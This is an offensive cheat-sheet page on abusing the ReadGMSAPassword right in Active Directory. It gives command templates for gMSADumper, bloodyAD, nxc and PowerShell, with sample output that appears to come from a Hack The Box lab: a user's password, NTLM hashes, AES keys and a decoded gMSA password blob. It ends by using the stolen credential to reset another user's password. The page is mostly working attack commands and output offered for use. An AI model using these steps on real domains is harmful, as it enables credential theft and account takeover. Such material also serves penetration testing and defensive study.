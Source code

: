 ```yaml
---
title: "ReadGMSAPassword"
date: 2024-7-23
tags: ["Credential Dumping", "ReadGMSApassword", "Gmsadumper", "Active Directory", "Windows"]
---
```


### Abuse #1: Read GMSAPassword (From Linux)

{{< tab set1 tab1 >}}gMSADumper{{< /tab >}}
{{< tab set1 tab2 >}}BloodyAD{{< /tab >}}
{{< tab set1 tab3 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 gMSADumper.py -u '<USER>' -p '<PASSWORD>' -l <DC> -d <DOMAIN>
```

```console {class="sample-code"}
$ python3 gMSADumper.py -u ted.graves -p Mr.Teddy -l intelligence.htb -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::745bd2c68dfc101a74f48d87027c7dc6
svc_int$:aes256-cts-hmac-sha1-96:8b2e9edb20258a45ad9084c89e7df761f3b85da5abd92849c150d4ed43f1056f
svc_int$:aes128-cts-hmac-sha1-96:798345b20bd9a8866a87b351c0ad68f3
```

```console
python3 gMSADumper.py -k -l <DC> -d <DOMAIN>
```

<small>*Ref: [gMSADumper](https://github.com/micahvandeusen/gMSADumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> get object '<TARGET_OBJECT>' --attr msDS-ManagedPassword
```

```console {class="sample-code"}
$ bloodyAD -d intelligence.htb -u ted.graves -p 'Mr.Teddy' --host intelligence.htb get object 'svc_int$' --attr msDS-ManagedPassword 

distinguishedName: CN=svc_int,CN=Managed Service Accounts,DC=intelligence,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:80d4ea8c2d5ccfd1ebac5bd732ece5e4
msDS-ManagedPassword.B64ENCODED: wcVVmCKWYOZszus92zsZDFqtPFYu960EdHowLnWB5vChR4R/yj+hgVusvxgnG1OYREO70qnEiCEfP62qLZluS/UHz53T94CItJ+YxA6W5jiWTy0L03JgE1m87NCnxrzGSXHXjp4Ja1OKDde9RrIaqGN7C7cFZth05q1bOOO+x8+jdD1xRXHKgig5LDk4inLQ1xqu7Lc4vT/hIIPx2dbS0FNwGtKu2NTTVAAB/LgVwYnfMNkpti2T0cE8R12HzjGVLV/54GLU1O8iLyXdnfgAQUdnccIlSacJ3XItjjeTWuOwCKQKmc0o8BbE+rHjA5dotmBiBHsE9bw3YsCh0SNTeA==
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
nxc ldap -u '<USER>' -p '<PASSWORD>' -d <DOMAIN> <DC> --gmsa
```

```console {class="sample-code"}
$ nxc ldap -u ted.graves -p 'Mr.Teddy' -d intelligence.htb dc01.intelligence.htb --gmsa
SMB         10.10.10.248    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.10.248    636    DC               [+] intelligence.htb\ted.graves:Mr.Teddy 
LDAPS       10.10.10.248    636    DC               [*] Getting GMSA Passwords
LDAPS       10.10.10.248    636    DC               Account: svc_int$             NTLM: 80d4ea8c2d5ccfd1ebac5bd732ece5e4
```

{{< /tabcontent >}}

---

### Abuse #2: Save as Cred

{{< tab set2 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
$gmsa = Get-ADServiceAccount -Identity '<TARGET_NAME>' -Properties 'msDS-ManagedPassword'
```

```console {class="sample-code"}
PS C:\programdata> $gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
```

```console
$mp = $gmsa.'msDS-ManagedPassword'
```

```console {class="sample-code"}
PS C:\programdata> $mp = $gmsa.'msDS-ManagedPassword

PS C:\programdata> ConvertFrom-ADManagedPasswordBlob $mp

Version                   : 1
CurrentPassword           : ꪌ絸禔හॐ๠뒟娯㔃ᴨ蝓㣹瑹䢓疒웠ᇷꀠ믱츎孻勒壉馮ၸ뛋귊餮꤯ꏗ춰䃳ꘑ畓릝樗껇쁵藫䲈酜⏬궩Œ痧蘸朘嶑侪糼亵韬⓼ↂᡳ춲⼦싸ᖥ裹沑扚羺歖㗻෪ꂓ㚬⮗㞗ꆱ긿쾏㢿쭗캵십ㇾ롤
                            ᒛ�䬁ማ譿녓鏶骲雰騆惿閴滭䶙竜迉竾ﵸ䲗蔍瞬䦕垞뉧⩱茾蒚⟒澽座걍盡篇
SecureCurrentPassword     : System.Security.SecureString
PreviousPassword          : 
SecurePreviousPassword    : 
QueryPasswordInterval     : 2019.19:45:41.4967000
UnchangedPasswordInterval : 2019.19:40:41.4967000
```

```console
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console {class="sample-code"}
PS C:\programdata> $password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console {class="sample-code"}
PS C:\programdata> $SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console
$cred = New-Object System.Management.Automation.PSCredential '<TARGET_NAME>', $SecPass
```

```console {class="sample-code"}
PS C:\programdata> $cred = New-Object System.Management.Automation.PSCredential 'BIR-ADFS-GMSA', $SecPass
```

```console
# For example, change password of another target user
Invoke-Command -ComputerName <COMPUTER_NAME> -ScriptBlock {Set-ADAccountPassword -Identity '<ANOTHER_TARGET_NAME>' -reset -NewPassword (ConvertTo-SecureString -AsPlainText '<NEW_PASSWORD>' -force)} -Credential $cred
```

```console {class="sample-code"}
PS C:\programdata> Invoke-Command -ComputerName . -ScriptBlock {Set-ADAccountPassword -Identity 'tristan.davies' -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Test1234' -force)} -Credential $cred
```

{{< /tabcontent >}}
